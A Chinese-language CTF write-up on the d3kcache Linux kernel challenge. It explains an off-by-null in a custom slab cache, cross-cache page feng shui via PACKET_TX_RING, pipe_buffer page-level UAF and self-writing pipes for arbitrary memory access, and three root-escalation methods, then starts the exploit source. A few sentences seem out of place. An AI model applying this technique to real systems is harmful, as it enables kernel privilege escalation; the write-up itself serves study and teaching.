










# d3kcache

## 题目简述

题目是 Linux kernel pwn。内核模块创建独立 `kmem_cache`，对象大小 2048，`KCACHE_APPEND` 在边界处额外写入 `\0`，形成 off-by-null。由于 cache 隔离，利用路线是跨 cache 页级堆风水：用 `PF_PACKET`/`PACKET_TX_RING` 从 buddy system 控制连续物理页，再让溢出影响 `pipe_buffer`，构造 page-level UAF 和多级 self-writing pipe，最终获得全物理内存任意读写并提权。

## 解题过程

### 0x01. 分析

毫无疑问，题目提供的 kernel module 很容易逆向。它创建了一个独立的 `kmem_cache`，用于分配大小为 2048 的对象。

```
#define KCACHE_SIZE 2048
static int d3kcache_module_init(void)
{
    //...
    kcache_jar = kmem_cache_create_usercopy("kcache_jar", KCACHE_SIZE, 0,
                         SLAB_HWCACHE_ALIGN | SLAB_PANIC | SLAB_ACCOUNT,
                         0, KCACHE_SIZE, NULL);
    memset(kcache_list, 0, sizeof(kcache_list));
    return 0;
}
```

自定义的 `d3kcache_ioctl()` 函数提供了从 `kcache_jar` 分配、追加、释放和读取对象的菜单。漏洞正位于追加数据逻辑中：当写入跨过 2048 字节边界时，会发生 null-byte buffer overflow。

```
long d3kcache_ioctl(struct file *__file, unsigned int cmd, unsigned long param)
{
    //...
    switch (cmd) {
        //...
        case KCACHE_APPEND:
            if (usr_cmd.idx < 0 || usr_cmd.idx >= KCACHE_NUM
                || !kcache_list[usr_cmd.idx].buf) {
                printk(KERN_ALERT "[d3kcache:] Invalid index to write.");
                break;
            }
            if (usr_cmd.sz > KCACHE_SIZE ||
                (usr_cmd.sz + kcache_list[usr_cmd.idx].size) >= KCACHE_SIZE) {
                size = KCACHE_SIZE - kcache_list[usr_cmd.idx].size;
            } else {
                size = usr_cmd.sz;
            }
            kcache_buf = kcache_list[usr_cmd.idx].buf;
            kcache_buf += kcache_list[usr_cmd.idx].size;
            if (copy_from_user(kcache_buf, usr_cmd.buf, size)) {
                break;
            }
            kcache_buf[size] = '\0'; /* vulnerability */
            retval = 0;
            break;
            //...
```

检查题目提供的 `config` 文件还可以发现，Control Flow Integrity 已启用。

```
CONFIG_CFI_CLANG=y
```

### 0x02. 利用

由于这个 `kmem_cache` 是独立的，无法从中分配其他常规内核结构体，所以一开始只能考虑 **cross-cache overflow**。

### 步骤 I - 使用页级堆风水构造稳定的 cross-cache overflow

为了保证溢出的稳定性，这里使用页级堆风水构造 **overflow layout**。

### 工作原理

页级堆风水并不是一个全新的技术，但属于较新的利用手法。顾名思义，页级堆风水是以内存页为粒度重新布局内存的技术。内核中当前内存页布局不仅对我们未知，而且信息量巨大，所以该技术的核心是 **手动构造一块新的、已知且可控的页级粒度内存布局**。

### 手动布局

如何实现这一点？先重新考虑 slub allocator 从 buddy system 申请页面的过程。当 slab 用作 freelist 的页面耗尽，并且 `kmem_cache_node` 的 partial list 为空，或者这是第一次分配时，slub allocator 会向 buddy system 申请页面。



接着需要重新理解 buddy system 如何分配页面。它以 `2^order` 个内存页为分配粒度，不同 order 的空闲页位于不同链表中。当目标 order 的链表无法提供空闲页时，更高 order 链表中的页会被拆成两部分：一部分返回给调用者，另一部分回到对应链表。下图展示了 buddy system 的实际工作方式。





注意，从更高 order 拆分得到的两个低 order 连续内存页是 **物理连续** 的。因此可以：

- 从 buddy system 申请两块连续内存页。

- 释放其中一块内存页，然后在 **vulnerable** `kmem_cache` 上做 heap spraying，使其拿走这块内存页。

- 释放另一块内存页，然后在 **victim** `kmem_cache` 上做 heap spraying，使其拿走这块内存页。

此时 vulnerable 和 victim `kmem_cache` 各自持有彼此相邻的内存页，从而可以实现 **cross-cache overflow**。

### 利用方式

有很多内核 API 可以直接从 buddy system 申请页面。这里使用来自 CVE-2017-7308 的思路。该利用家族中有用的 primitive 不是原始 packet socket bug 本身，而是 `PF_PACKET` ring 的分配行为：`PACKET_TX_RING` 允许用户态让内核申请受控数量的 order-N 页面，非常适合在独立 slab cache 附近布置物理连续页面。

当我们用 `PF_PACKET` 协议创建 socket，调用 `setsockopt()` 把 `PACKET_VERSION` 设置为 `TPACKET_V1` / `TPACKET_V2`，并通过 `setsockopt()` 传入 `PACKET_TX_RING` 时，会进入如下调用链：

```
__sys_setsockopt()
    sock->ops->setsockopt()
        packet_setsockopt() // case PACKET_TX_RING ↓
            packet_set_ring()
                alloc_pg_vec()
```

随后会分配一个 `pgv` 结构，用于分配 `tp_block_nr` 份 `2^order` 内存页，其中 `order` 由 `tp_block_size` 决定：

```
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
    unsigned int block_nr = req->tp_block_nr;
    struct pgv *pg_vec;
    int i;
    pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
    if (unlikely(!pg_vec))
        goto out;
    for (i = 0; i < block_nr; i++) {
        pg_vec[i].buffer = alloc_one_pg_vec_page(order);
        if (unlikely(!pg_vec[i].buffer))
            goto out_free_pgvec;
    }
out:
    return pg_vec;
out_free_pgvec:
    free_pg_vec(pg_vec, order, block_nr);
    pg_vec = NULL;
    goto out;
}
```

`alloc_one_pg_vec_page()` 会调用 `__get_free_pages()` 向 buddy system 申请页面，这让我们可以获取大量不同 order 的页面：

```
static char *alloc_one_pg_vec_page(unsigned long order)
{
    char *buffer;
    gfp_t gfp_flags = GFP_KERNEL | __GFP_COMP |
__GFP_ZERO|__GFP_NOWARN|__GFP_NORETRY;
    buffer = (char *) __get_free_pages(gfp_flags, order);
    if (buffer)
        return buffer;
    //...
}
```

对应地，socket 关闭后 `pgv` 中的页面会被释放。

```
packet_release()
    packet_set_ring()
        free_pg_vec()
```

`setsockopt()` 的这些特性允许我们实现 **page-level heap Feng Shui**。注意要避免 noisy objects（额外内存分配）破坏页级堆布局。因此应在为页级堆风水分配页面之前先预分配一些页面。**由于 buddy system 是一个 LIFO pool**，可以在 slab 即将耗尽时释放这些预分配页面。

这样，**我们就能获得对一段连续内存的页级控制**，并按如下步骤构造特殊内存布局：

首先，释放一部分页面，让 victim object 获得这些页面。

- 然后，释放一块页面并在 kernel module 上进行分配，使其从 buddy system 申请这块页面。

- 最后，再释放另一部分页面，让 victim object 获得这些页面。

最终，vulnerable slab 页面会被 victim object 的 slab 页面包围，如图所示，从而保证 cross-cache overflow 的稳定性。



### 步骤 II - 使用 fcntl(F_SETPIPE_SZ) 扩展 pipe_buffer，构造 page-level UAF

现在考虑把什么 victim object 作为 cross-cache overflow 的目标。强大的 `msg_msg` 应该是很多人第一时间想到的对象，但过去太多漏洞利用已经反复使用 `msg_msg`，所以这次尝试探索一点新的东西。

这里不要继续把 `msg_msg` 当唯一内核堆利用载体，题目更适合转向 SysV IPC 与 pipe buffer 相关结构。

由于只有一字节溢出，显然应寻找头部包含指向其他内核对象指针的结构体。`pipe_buffer` 正好符合条件，它开头就有一个指向 `struct page` 的指针。更重要的是，`struct page` 大小只有 `0x40`，null-byte overflow 可以把某个字节置为 `\x00`，这意味着 **有 75% 概率可以让一个** `pipe_buffer` **指向另一个 page**。

因此，如果 spray `pipe_buffer` 并对它做 null-byte cross-cache overflow，就有较高概率 **让两个** `pipe_buffer` **指向同一个** `struct page`。释放其中一个后，**就能得到 page-level use-after-free**，如下图所示。







更重要的是，pipe 本身的功能 **允许我们读写这个 UAF page**。很难再找到另一个像 `pipe` 一样合适的对象。

但还有一个问题：`pipe_buffer` 来自 `kmalloc` - `cg` - `1k` pool，它请求 order-2 页面；而有漏洞的 kernel module 请求 order-3 页面。如果直接在不同 order 之间做堆风水，利用成功率会大幅下降。

幸运的是，`pipe` 比想象中更强。前面说的 `pipe_buffer` 实际上是一个 `struct pipe_buffer` 数组，其元素数量为 `pipe_bufs`。

```
struct pipe_inode_info *alloc_pipe_info(void)
{
    //...
    pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
                 GFP_KERNEL_ACCOUNT);
```

注意，`struct pipe_buffer` 的数量 **不是常量**。自然会想到一个问题：**能否调整数组中** `pipe_buffer` **的数量？** 答案是可以。可以使用 `fcntl(F_SETPIPE_SZ)` **调整数组中** `pipe_buffer` **的数量**，这实际上是一次重新分配。

```
long pipe_fcntl(struct file *file, unsigned int cmd, unsigned long arg)
{
    struct pipe_inode_info *pipe;
    long ret;
    pipe = get_pipe_info(file, false);
    if (!pipe)
        return -EBADF;
__pipe_lock(pipe);
    switch (cmd) {
    case F_SETPIPE_SZ:
        ret = pipe_set_size(pipe, arg);
//...
static long pipe_set_size(struct pipe_inode_info *pipe, unsigned long arg)
{
    //...
    ret = pipe_resize_ring(pipe, nr_slots);
//...
int pipe_resize_ring(struct pipe_inode_info *pipe, unsigned int nr_slots)
{
    struct pipe_buffer *bufs;
    unsigned int head, tail, mask, n;
    bufs = kcalloc(nr_slots, sizeof(*bufs),
               GFP_KERNEL_ACCOUNT | __GFP_NOWARN);
```

因此，可以很容易通过 **调整** `pipe_buffer` **数量** 来触发重新分配：对每个 pipe，分配 **64 个** `pipe_buffer`，**使其从** `kmalloc` - `cg` - `2k` **请求一个 order-3 页面**，与有漏洞 kernel module 的 order 相同，从而显著提高 cross-cache overflow 的可靠性。

注意 `struct page` 大小为 `0x40`，这意味着指向它的指针最后一个字节可能本来就是 `\x00`。如果对这种 `pipe_buffer` 做 cross-cache overflow，就等于什么都没发生。因此实际成功率只有 75%。

### 步骤 III - 构造 self-writing pipes，实现任意读写

由于 `pipe` 本身提供了读写特定 page 的能力，而且 `pipe_buffer` 数组大小可控，在 UAF page 上再次选择 `pipe_buffer` 作为 victim object 再合适不过。



由于 UAF page 上的 `pipe_buffer` 可被我们读写，可以直接应用 pipe primitive 执行 **dirty pipe**。Dirty Pipe 风格利用在这里重要，是因为 `pipe_buffer` 包含 `struct page *` 以及 offset/length/ops 字段；控制这些字段可以把 pipe 读写重定向到 page cache 或任意物理页。

既然 UAF page 上的 `pipe_buffer` 可读写，**为什么不进一步构造如下 second-level page-level UAF？**



原因是 `page` 结构体实际上来自一个连续数组，每个元素都对应一个物理页。如果能篡改 `pipe_buffer` 指向 `struct page` 的指针，**就可以在整个内存空间中执行任意读写**。下面说明具体做法。

由于一个 `page` 结构体的地址可以通过 UAF pipe 读出（可以在利用开始前写入一些字节作为标记），就可以轻松把另一个 `pipe_buffer` 的指针改向这个 page。这里把它称为 **second-level UAF page**。随后关闭其中一个 pipe 释放该 page，再在这个 page 上重新 spray `pipe_buffer`。**由于该 page 地址已知，可以直接篡改这个 page 上的** `pipe_buffer` **使其指向自己所在的 page，从而让 second-level UAF page 上的** `pipe_buffer` **可以篡改自身**。



这里可以篡改 `pipe_buffer.offset` 和 `pipe_buffer.len` 来重新定位 pipe 读写起点，但这些变量会在读写操作后被重新赋值。所以使用 **三个这样的 self-pointing pipe** 构造一个无限循环：

- 第一个 pipe 通过篡改自身指向 `page` 结构体的指针，在内存空间中执行任意读写。

- 第二个 pipe 用于修改第三个 pipe 的读写起点，让第三个 pipe 能够篡改第一个和第二个 pipe。

- 第三个 pipe 用于篡改第一个和第二个 pipe，使第一个 pipe 可以读写任意物理页，而第二个 pipe 又可以继续篡改第三个 pipe。

有了这三个 self-pointing pipe，就可以在整个内存空间中执行 **无限任意读写**。

### 步骤 IV - 提权

拥有整个内存空间的无限任意读写能力后，可以用很多方式提权。这里给出三种方法。

### 方法 1. 将当前 task_struct 的 cred 改为 init_cred

`init_cred` 是带 root 权限的 `cred`。如果能把当前进程的 `task_struct.cred` 改成它，就能获得 root 权限。可以先通过 `prctl(PR_SET_NAME, "arttnba3pwnn")` 修改 `task_struct.comm`，再利用任意读直接搜索对应的 `task_struct`。

有时 `init_cred` 不会在 `/proc/kallsyms` 中导出，调试时也难以获取其基址。幸运的是，所有 `task_struct` 组成一棵树，可以沿着树轻松找到 `init` 的 `task_struct`，进而获得 `init_cred` 地址。

最终利用阶段先在内存中搜索 `task_struct`，根据 `page_offset_base` 和 `current task_struct` 继续定位内核栈与页表，随后进入提权流程。

**方法 2. 读取页表解析 kernel stack 物理地址，直接写 kernel stack 执行 ROP**

虽然启用了 CFI，**仍然可以实现代码执行**。当前进程页表地址可以从 `mm_struct` 中获得，而 `mm_struct` 和 kernel stack 的地址可以从 `task_struct` 中获得，因此可以解析出 kernel stack 的物理地址并拿到对应的 `page` 结构体。这样就能直接把 ROP gadget 写到 `pipe_write()` 的栈上。

在拿到当前进程的 `task_struct` 与内核栈地址后，利用页表读写继续劫持执行流，最终输出 `uid=0(root) gid=0(root)`。

但这个方案并不总是可用。有时即使 ROP gadget 已经写入 kernel stack page，控制流也不会被劫持，具体原因暂时不明：

(

**方法 3. 读取页表解析 kernel code 物理地址，把它映射到用户空间以覆盖内核代码（USMA）**

覆盖内核代码段来执行任意代码也是一种可行思路，但 `pipe` 实际上通过 direct mapping area 写页面，**而 kernel code area 在这里是只读的**。

但实际想做的是 **写对应物理页**，而页表本身可写。因此 **可以直接篡改页表，为 kernel code 的物理页建立一个新的映射**。

这实际上与 USMA 的做法相同。

另一条验证输出显示可直接调用伪造的 `ns_capable_setid` 路径完成提权，并进入 root shell。

### 最终利用

下面是最终 exploit 代码，包含三种不同的 root 提权方式。

```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sched.h>
#include <sys/prctl.h>
#include <sys/ioctl.h>
#include <sys/socket.h>
#include <sys/mman.h>
/**
 * I - 基础函数
 * 例如 CPU 核绑定、用户态状态保存等。
 */
size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;
size_t page_offset_base = 0xffff888000000000, vmemmap_base = 0xffffea0000000000;
size_t init_task, init_nsproxy, init_cred;
size_t direct_map_addr_to_page_addr(size_t direct_map_addr)
{
    size_t page_count;
    page_count = ((direct_map_addr & (~0xfff)) - page_offset_base) / 0x1000;
    return vmemmap_base + page_count * 0x40;
}
void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    sleep(5);
    exit(EXIT_FAILURE);
}
/* root 检查与 shell 启动 */
void get_root_shell(void)
{
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        sleep(5);
        exit(EXIT_FAILURE);
    }
    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    system("/bin/sh");
    /* 正常退出进程，避免触发 segmentation fault */
    exit(EXIT_SUCCESS);
}
/* 用户态状态保存 */
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
__asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}
/* 将进程绑定到指定 CPU 核 */
void bind_core(int core)
{
    cpu_set_t cpu_set;
    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}
/**
 * @brief create an isolate namespace
 * 注意 caller **不应** 用于获取 root，只作为执行基础利用操作的辅助进程。
 */
void unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;
    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);
    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);
    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}
struct page;
struct pipe_inode_info;
struct pipe_buf_operations;
/* 读从 len 到 offset 开始，写从 offset 开始 */
struct pipe_buffer {
    struct page *page;
    unsigned int offset, len;
    const struct pipe_buf_operations *ops;
    unsigned int flags;
    unsigned long private;
};
struct pipe_buf_operations {
    /*
     * ->confirm() verifies that the data in the pipe buffer is there
     * 并确认内容可用。如果 pipe 中的页面属于文件系统，
     * 可能需要在这个 hook 中等待 IO 完成。正常返回 0，
     * 出错时返回负错误值。如果该回调不存在，则认为所有页面都可用。
     */
    int (*confirm)(struct pipe_inode_info *, struct pipe_buffer *);
    /*
     * 当该 pipe buffer 的内容被 reader 完全消费后，会调用 ->release()。
     */
    void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
    /*
     * 尝试获取 pipe buffer 及其内容的所有权。
     * ->try_steal() returns %true for success, in which case the contents
     * pipe 的页面（buf->page）已被锁定，并完全归 caller 所有。
     * 随后该页面可以转移到不同映射，最常见场景是插入到其他文件地址空间 cache。
     */
    int (*try_steal)(struct pipe_inode_info *, struct pipe_buffer *);
    /*
     * 获取 pipe buffer 的引用。
     */
    int (*get)(struct pipe_inode_info *, struct pipe_buffer *);
};
/**
 * II - 与 /dev/kcache 交互的接口
 */
#define KCACHE_SIZE 2048
#define KCACHE_NUM 0x10
#define KCACHE_ALLOC 0x114
#define KCACHE_APPEND 0x514
